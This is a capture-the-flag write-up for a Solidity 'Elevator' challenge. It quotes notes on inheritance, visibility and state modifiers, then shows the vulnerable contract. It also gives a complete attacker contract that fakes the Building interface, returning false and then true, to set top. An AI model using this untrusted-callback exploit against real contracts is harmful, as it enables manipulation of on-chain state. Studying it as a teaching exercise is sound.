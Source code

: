 # Elevator

From StackExchange :

> When inheriting from a contract, you are creating a new instance that has -inherited- variables & functions from the parent contract. Therefore, if you modify any variable from this new contract (in address B), it is not affecting the original parent contract (in address A).

> Use of public, private, external or internal will depend whether you need to access methods from a contract, outside of a contract, from an inherited contract, etc, but be careful: all variables can ultimately be seen by using exploring tools. So this is more related to accessibility to methods.

> You will be able to modify a variable depending on the functions you define within your contract that allow to do so (and not from other inherited contracts). Other than that, there is no way to modify a variable (that's one of the key features from a blockchain).

Another piece of info :

> In order of increasing state permissions:
> pure: promises functions that will neither read from nor modify the state. Note: Pure replaces constant in more recent compilers.
> view: promises functions that will only read, but not modify the state
> default: [no modifier] promises functions that will read and modify the the state

Think of interfaces as an ABI (or API) declaration that forces contracts to all communicate in the same language/data structure. But interfaces do not prescribe the logic inside the functions, leaving the developer to implement his own business layer.

Contract Interfaces specifies the WHAT but not the HOW.

```solidity 
interface Building {
  function isLastFloor(uint) external returns (bool);
}
contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

Elevator never implemented the isLastFloor function, and just uses it straight.

We can then pretend to be *Building* and call *goTo()*. This way *Elevator* calls us, the malicious contract, to invoke the *isLastFloor(uint _floor)*.

We then just return false then true to finish the question.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Elevator {
  function goTo(uint _floor) external;
}
contract Building  {

  Elevator originalElevator;
  address myAddr = 0x36b19c3573beE32B810076d195FC15baFC72a562;
  address targetAddr = 0x2b7B4Ed3df29b7d52403d350B45B646bba074077;
  bool mySwitch;

  constructor(){
    originalElevator = Elevator(targetAddr);
    mySwitch = true;
  }

  function hackGoTo() public {
    originalElevator.goTo(1);
  }

  function isLastFloor(uint) external returns (bool){
    if (mySwitch) {
      mySwitch = false;
      return false;
    } else {
      return true;
    }
  }
}
```
